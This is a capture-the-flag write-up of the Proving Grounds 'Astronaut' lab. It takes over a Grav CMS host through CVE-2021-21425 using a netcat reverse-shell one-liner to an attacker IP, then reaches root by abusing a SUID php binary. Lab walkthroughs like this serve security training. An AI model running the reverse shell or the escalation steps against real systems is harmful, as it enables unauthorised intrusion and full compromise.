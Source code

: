 ```yaml
---
title: "Proving grounds Play: Astronaut"
layout: post
date: 2023-10-05 03:00
categories: writeup
---
```


Proving grounds Practice - Astronaut CTF writeup.

## Nmap

```text
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 984e5de1e697296fd9e0d482a8f64f3f (RSA)
|   256 5723571ffd7706be256661146dae5e98 (ECDSA)
|_  256 c79baad5a6333591341eefcf61a8301c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp open  http - Apache httpd 2.4.41

http://192.168.192.12/grav-admin/

![img](/assets/images/CTF/Proving_Grounds/Astronaut/web.png)

Grav CMS is vulnerable to [Grav CMS Unauthenticated RCE (CVE-2021-21425)](https://www.acunetix.com/vulnerabilities/web/grav-cms-unauthenticated-rce-cve-2021-21425/).

## Exploitation

Find the remode code execution exploit from [GitHub](https://github.com/CsEnox/CVE-2021-21425).

Run the exploit as below.

```sh
naveenj@hackerspace:|06:22|~/proving_grounds/Astronaut/exploit$ python3 exploit.py -t http://192.168.192.12/grav-admin -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.198 4444 >/tmp/f'
[*] Creating File
Scheduled task created for file creation, wait one minute
[*] Running file
Scheduled task created for command, wait one minute
Exploit completed
```

**Reverse Shell**

```sh
naveenj@hackerspace:|06:24|~/proving_grounds/Astronaut/exploit$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.198] from (UNKNOWN) [192.168.192.12] 58968
sh: 0: can't access tty; job control turned off
$ 
```

## Privilege Escalation

Check the SUID binaries.

```sh
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/php7.4         #exploitable
$ 
```

Check GTFO bins for exploit.

### GTFO Bins exploit

**SUID**

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

`php -r "pcntl_exec('/bin/sh', ['-p']);"`

### Exploitation

```sh
$ which php
/usr/bin/php
$ /usr/bin/php -r "pcntl_exec('/bin/sh', ['-p']);"
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
whoami
root
```

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).